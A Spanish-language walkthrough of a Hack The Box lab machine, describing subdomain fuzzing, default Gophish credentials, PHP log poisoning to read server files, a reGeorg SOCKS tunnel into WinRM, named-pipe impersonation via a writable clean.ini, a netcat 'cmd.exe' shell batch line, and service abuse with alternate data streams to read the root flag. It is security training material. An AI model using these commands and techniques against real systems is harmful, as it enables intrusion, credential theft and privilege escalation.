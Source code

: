 ------------
- Tags: #subdomain #fuzzing #gophish #regeorg #winrm #cron-job #impersonating #bypassing-firewall
------------
## Tecnicas utilizadas
- Subdomain Enumeration  
- Information Leakage  
- Password Fuzzing  
- Gophish Template Log Poisoning (Limited RCE)  
- Internal Port Discovery  
- reGeorg - Accessing internal ports through a SOCKS proxy (proxychains)  
- Accessing the WinRM service through reGeorg and SOCKS proxy  
- Abusing Cron Job + SeImpersonatePrivilege Alternative Exploitation  
- Playing with PIPES - pipeserverimpersonate  
- Impersonating users and executing commands as the impersonated user  
- Bypassing Firewall Rules (BlockInbound/BlockOutbound)  
- Abusing Services  
- Alternate Data Streams (ADS)
----------------
## Procedimiento
![[Pasted image 20230603191429.png]]
- Usamos herramientas de estenografía para ver si hay informacion relevante en la imagen del burro que se encuentra en la pagina principal de la pagina.
- Fuzzing de subdominios y encontramos uno con nombrre `admin`. Dentro de este subdominio tambien se Fuzzea y se haya un .js con informacion relevante. La informacion que encontramos esta en ROT13, usamos algun decodificador en linea para aplicar el proceso inverso. Colocamos el codigo en cualquier consola de navegador para debugearlo. Miramos el valor de las variables simplemente pasando su identificador a la consola y esta misma nos da el valor.
- Las variables tienen el valor de palabras, las cuales al juntarlas no dan un mensaje. Nos brindan un path de un recurso de red, nos da los parametros y nos dan los valores. Probando con el action `list` nos dice que la key no es correcta -> `Key wrong`. Empleamos un ataque de fuerza bruta con wfuzz para fuzzar por la posible contraseña. Con la key correspondiente, si hacemos un list a la pagina `HackTheBox` nos regresa un hash con una extension `.log`. 
- Enumeramos la siguiente pagina en el puerto 64831 y es un gophish, tiene credenciales por defecto: `admin:gophish`.  Encontramos plantillas que corresponden con los sitios que nos mostraban las variables. Nos hace pensar que se estaban montando campañas de phishing para los sitios colocados ahi. Echandole un ojo a las plantillas, vemos un dominio `www.hackthebox.htb` que nos resuelve a una pagina. Cada que colocamos alguna credencial, se nos crea un nuevo log en el recurso que habiamos encontrado en la otra pagina, probablemente sean los datos que estamos ingresando y se guardan en forma de log. Al listar la credencial con la cookie correcta(se nos asigna automaticamente cuando ingresamos al sitio web malicioso) podemos ver el registro de los datos ingresados. Intentanto inyectar codigo PHP, vemos que si lo interpreta. con el parametro encontrado `show` y la credencial encontrada, intentamos mostra el log con nuestra cookie. Y como podemos observar no tenemos habilitada la ejecucion remota de comandos, sin embargo podemos usar la funcion `print_r(scandir('.'))` para listar los recursos del directorio actual de trabajo. Podemos usar `file_get_contents()` para leer archivos residentes en el servidor. Leemos el archivo `web.config.old` y vemos que hay credenciales.
- Fuzzemos el otro servicio web expuesto en el puerto `6666`. Listamos puertos locales en la maquina victima gracias a que en el servicio expusto hay ciertos comandos que se nos permiten ejecutar, entre ellos esta el `netstat`. Podemos aplicar un filtrado para ver mas comodo los datos como el siguiente:
  `grep "\"local port\"" | tr -d '"' | tr -d ',' | sed 's/^ *//' | sort -k 2 -nu`.
  Encontramos el puerto `5985` de `WinRm`. Buscamos por el recurso en la red de `reGeorge`.  De todos los archivos, el que nos interesa es el tunnel.aspx. Pasamos a base64 todo el archivo e intentamos subirlo a la pagina web con `file_put_contents("nombredearchivo", base64_decode($contenido_base_64")`. Una vez arriba el archivo, tenemos que visualizarlo con show para intepretarlo. Una vez creada la pagina de tunnel.aspx, nos clonamos el repositorio completo de `reGeroge`.
  Ejecutamos el script en python2, apuntando el recurso malicioso que hemos podido lograr subir y proporcionamos un puerto. Posteriormente tenemos que jugar con proxychain para configurar un proxy `/etc/proxychains.conf`, este nos lo brinda el script en python de `reGeorge` `socks4 127.0.0.1 1234` probamos las credenciales encontradas en `web.config.log` con evil-winrm, sin olvidar utilizar el comando `proxychain` al principio y atentando a nuestra propia ip ya que `tunnel.aspx` nos tunneliza el puerto a nuestra maquina por proxychain.
- Inspeccionamos la carpeta `util` encontrada en la raiz del sistema, dentro de ella hay un directorio oculto llamado `scripts`, en su interior hay varios scripts.
- Lo que procede a continuacion es robarnos el LogFile, como tenemos permiso de escritura en el archivo `clean.ini`(lo sabemos porque si usamos `net user simple` nos damos cuenta que pertenecemos a `project-managers` que listando los permisos del archivo con `icacls clean.ini` este grupo tiene permiso de escritura sobre este archivo.) procederemos a robarnos la ruta:
    `echo [Main] > clean.ini`
    `echo LifeTime=100 >> clean.ini`
    `echo LogFile=C:\util\scripts\sexcott.txt >> clean.ini`
    `echo Directory=c:\inetpub\logs\logfiles >> clean.ini`
	Lo proximo hacer, es clonarnos la herramienta de `decoder-it` mas especificamente `pipeserverimpersonate.ps1`. Hacemos uso del recurso `AppLockerBypasses` de github para ver donde podemos subir el archivo y que no haya problemas al ejecutarlo.
	Lo subimos facilmente gracias a evil-winrm con `upload /path/to/upload`.
	Ahora lo que haremos es crear un nuevo `clean.ini` pero que apunte al pipe del `impersonate.ps1` que subimos a la maquina, pero tenemos que cambiar un poco el LogFile de la siguiente manera:
	`echo LogFile=\\.\pipe\dummypipe >> clean.ini`
  Ejecutamos el `impersonate.ps1` haciendo alución a la ruta donde lo subimos.
  Subimos el `netcat` y un archivo `.bat` que va a contener lo siguiente `C:\ruta\de\nc.exe -lvp 4444 -e cmd.exe`.
  Modificamos el archivo impersonate desde nuestra maquina local para definir el comando que queramos que ejecute el usuario a impersonar a la hora de que apunte al pipe el LogFile, asi que añadiremos la siguiente linea al script:
  `Copy C:\Windows\System32\spool\drivers\color\sexcott.bat C:\util\scripts\spool\sexcott.bat`.
  Subimos el nuevo impersonate.ps1 y lo ejecutamos. Una vez se ejecute el pipe, desde nuestra maquina nos contectamos a nuestra propia IP por el puerto que hayamos definido en el `.bat` utilizando proxychain como comando inicial.
- Ahora, una vez dentro del sistema como el usuario `Hacker`, seguiremos enumerando el servicio que nos brindaba el puerto 6666, anteriormente vimos `netstat`, ahora probaremos con `services` para listar los servicios internos del sistema. Filtramos por el nombre del servicio para que nos sea mas como. Nos interesa especificamente el servicio de `UserLogger`. Para enumerar el servicio podemos usar:
  `reg query HKLM\System\CurrentControlSet\Services\userlogger`
  Lo que haremos a continuacion, sera ver si tenemos el control de parar e iniciar el servicio con el siguiente comando:
  `sc stop userlogger` -> Apagar
  `sc start userlogger` -> Iniciar
  Podemos internat encender el servicio con parametros adicionales, intentamos depositar el log en la raiz del sistema como ejemplo:
  `sc start userlogger C:\user.txt;`
  Vemos que si podemos dos puntos, el archivo no nos concatena el `.log`.
  Esto lo aprovecharemos para darle permisos FULL a la flag de root de la siguiente manera
  `sc start userlogger C:\Users\Administrator\Desktop\root.txt:`
  Al final tenemos que ver ver el `alternative data string` del `root.txt` con dir /r /s para ver, pero como no tenemos permisos de lectura no lo sabremos, asi que con `more` podemos fuzzear por la ADS como por ejemplo `:flag.txt`.
  Al final sacamos el valor de la flag de la siguiente manera:
  `more < C:\Users\Administrator\Desktop\root.txt:flag.txt`
  
  
  
  
  